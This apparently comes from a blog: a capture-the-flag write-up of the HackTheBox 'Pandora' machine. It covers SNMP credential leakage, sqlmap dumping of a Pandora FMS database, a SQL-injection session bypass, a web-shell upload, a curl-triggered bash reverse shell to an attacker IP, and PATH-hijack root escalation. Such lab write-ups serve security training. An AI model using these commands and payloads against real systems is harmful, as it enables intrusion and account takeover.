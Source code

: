 ```yaml
---

title: HTB [PANDORA] [LINUX]

date: 2022-06-02 18:23:05 +0200

categories: [htb]

tags: [HACKTHEBOX MACHINES]

---
```



![](https://jopraveen.files.wordpress.com/2022/01/8cjsjbq.png?w=472)

## **NMAP:**

```css
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

-   Nothing interesting in website
-   There’s only one contact form, and there’s no vulnerability.

## **FUZZING:**

```css
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/server-status (Status: 403)
/index.html (Status: 200)
/assets (Status: 301)
/server-status (Status: 403)
```

-   Can’t access these pages

```css
d70.pandora.htb
s4232ipmi.pandora.htb
incarose.pandora.htb
web1211.pandora.htb
erol.pandora.htb
```

-   I got a couple of sub domains in subdomain fuzzing, but all of them are false positives.
-   After spending a few minutes, I decided to scan the UDP ports.
-   Found an SNMP port.

```css
 nmap -sU 10.10.11.136 -p 161
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-09 01:16 +05
Nmap scan report for pandora.htb (10.10.11.136)
Host is up (0.18s latency).

PORT    STATE SERVICE
161/udp open  snmp
```

-   let’s scan this deeper

## SSH CREDS:

-   We can get these credentials in two ways
-   One by enumerating it with the snmpwalk tool.
-   Another one is just running nmap script scan.

```bash
nmap -sU -sC -sV 10.10.11.136 -p 161
```

-   This scan took 749.78 seconds

![](https://jopraveen.files.wordpress.com/2022/01/image-8.png?w=1024)

-   Here under snmp-process, we can see the username and password.

-   Another method of seeing our snmp output `cat snmp.out| grep -i string`

![](https://jopraveen.files.wordpress.com/2022/01/image-9.png?w=1024)

-   use these credentials to ssh in

[![](https://i.imgur.com/K0doEwI.png)]

-   We need to privesc to matt

## WEB SERVER

[![](https://i.imgur.com/XTCzDNy.png)](https://i.imgur.com/XTCzDNy.png)

-   There’s a web-server running locally

[![](https://i.imgur.com/0VbgMN7.png)](https://i.imgur.com/0VbgMN7.png)

-   By curling it, We can get a path “/pandora_console/”
-   And it’s running in Apache 2.4.1

[![](https://i.imgur.com/1wpGvVO.png)](https://i.imgur.com/1wpGvVO.png)

-   proccess running by matt ^
-   Let’s try to forward local port 80 along with our machine to exploit it.

[![](https://i.imgur.com/vO0xei5.png)](https://i.imgur.com/vO0xei5.png)

-   You can use socat to port forwarding.

## PANDORA FMS:

[![](https://i.imgur.com/RqxxgrK.png)](https://i.imgur.com/RqxxgrK.png)

-   Quickly googled about it
-   and got **[this nice blog](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained)**
-   We must first exploit that SQLi in the session_id parameter.

![](https://jopraveen.files.wordpress.com/2022/01/unknown.png?w=811)

-   dump databases

```
sqlmap -u http://10.10.11.136:1337/pandora_console/include/chart_generator.php --data="session_id=test" -method POST --dbs --batch
```

![](https://i.imgur.com/mmmORUi.png)

-   dump tables

```
sqlmap -u http://10.10.11.136:1337/pandora_console/include/chart_generator.php --data="session_id=test" -method POST -D pandora -tables --batch
```

-   got some hashses, But can’t crack it
-   so let’s go for sessions

![](https://i.imgur.com/YQ9sMB2.png)

```
sqlmap -u http://10.10.11.136:1337/pandora_console/include/chart_generator.php --data="session_id=test" -method POST -D pandora -T tsessions_php --dump --batch
```

![](https://i.imgur.com/1uPONzh.png)

-   got admin session_id in tsessions_php
-   If you cannot obtain the session ID, you can simply use sql payload to sign in.

```bash
10.10.11.136:1337/pandora_console/include/chart_generator.php?session_id=hello' UNION ALL SELECT 'XXXX',1337,'id_usuario|s:5:"admin";';-- -
```

## RCE:

-   **[This blog](https://k4m1ll0.com/cve-2020-8500.html)** covers everything in detail.

![](https://jopraveen.files.wordpress.com/2022/01/image-11.png?w=384)

-   Now go to **[http://10.10.11.136:1337/pandora_console/index.php?sec=godmode/extensions&sec2=extensions/extension_uploader](http://10.10.11.136:1337/pandora_console/index.php?sec=godmode/extensions&sec2=extensions/extension_uploader)**
-   Then upload this zip
-   You can access this file in /extensions/shell.php

![](https://jopraveen.files.wordpress.com/2022/01/image-12.png?w=928)

-   Cool we can able to execute commands
-   Grab the user.txt real quick, time to root


![](https://i.imgur.com/gcLux48.png)

```
curl http://10.10.11.136:1337/pandora_console/extensions/shell.php\?cmd\="bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F10.10.14.118%2F1337%20%3C%261%27"
```

-   Grab a shell and upgrade it.

## ROOT:

![](https://i.imgur.com/4wJPLKG.png)

-   Find the suid binary
-   pandora_backup is not a regular binary
-   let’s download it
-   Time to do some reversing


![](https://i.imgur.com/R0zZqne.png)

-   Here in the main function the binary calls a system function.
-   It runs “tar” command, but not with full path
-   Now we can abbuse it with export PATH.. ezpzz

![](https://jopraveen.files.wordpress.com/2022/01/image-13.png?w=994)

```bash
echo "sudo chmod u+s /bin/bash" > tar
chmod +x tar
export PATH="$(pwd):/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
/usr/bin/pandora_backup
bash -p
```

- Root is very easy than user
- Thanks for reading my write-up, I hope you enjoyed it if you liked it, then give me respect in Hackthebox.

**[Click here](https://www.hackthebox.com/home/users/profile/190694)** to visit my HTB profile
